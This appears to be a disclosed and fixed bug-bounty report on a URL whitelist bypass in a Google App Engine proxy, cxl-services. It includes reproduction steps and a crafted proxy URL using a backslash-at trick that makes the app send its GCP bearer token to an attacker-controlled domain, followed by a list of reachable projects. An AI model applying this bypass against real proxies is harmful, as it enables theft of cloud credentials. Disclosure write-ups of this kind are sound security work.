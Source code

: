 ```yaml
---
layout: post
slug: "0008"
vendor: "Google"
status: "fixed"
reported: "2021-03-23"
title: "URL whitelist bypass in https://cxl-services.appspot.com"
---
```


**Summary:**

Access Token for internal GCP project "cxl-services" (with scopes `"https://www.googleapis.com/auth/dispatcher`, `https://www.googleapis.com/auth/jobs` and `https://www.googleapis.com/auth/cloud-platform"`) can be leaked using a URL whitelist bypass on `https://cxl-services.appspot.com/proxy`. This token could be used to elevate privileges in other internal projects, access some internal Compute instances and possibly take full control over `cxl-services.appspot.com`.  This App Engine app proxies demo API requests on Google Cloud product pages (e.g. Cloud Text-to-Speech Demo).

**Core Issue:**

The domain whitelist check on `cxl-services.appspot.com` can be bypassed with the `\@` trick. It is probably using the vulnerable regex from [https://tools.ietf.org/html/rfc3986#appendix-B](https://tools.ietf.org/html/rfc3986#appendix-B).

When validating the URL `https://[your_domain]\@jobs.googleapis.com`, the regex thinks that the authority is `jobs.googleapis.com`, but the library making the request actually parses `[your_domain]` as the authority, and `/@jobs.googleapis.com` as the path.

**Steps to Reproduce:**

*If you already have an HTTPS server where you can view request headers, skip to `Step 5.`.* \
*You can probably use plain HTTP and `netcat`, but then the access token would be transported unencryped.*

1. Set up a VPS, and point a domain to it
2. Generate an SSL certificate with LetsEncrypt
3. Download my [`httpsserver.py` Python script](https://gist.github.com/xdavidhu/9491a9918b4dfbaffb789a8b9f2d1672), and fill out the `hostname` variable on `line 5`
4. Create an empty directory, `cd` into it, and start the server with `sudo /path/to/httpsserver.py --verbose`
5. With a browser, open the URL `https://cxl-services.appspot.com/proxy?url=https://[your_domain]\@jobs.googleapis.com/`
6. On your VPS, see that the `cxl-services.appspot.com` App Engine app has sent a request with the header `authorization: Bearer [access-token]`

**Post-Exploitation:**

I've sent some (in my viewpoint, harmless) read-only requests with the access-token to prove impact, here is what I found:

This access token has (some) access to these GCP projects:
- `docai-demo`
- `cxl-services`
- `garage-staging`
- `p-jobs`
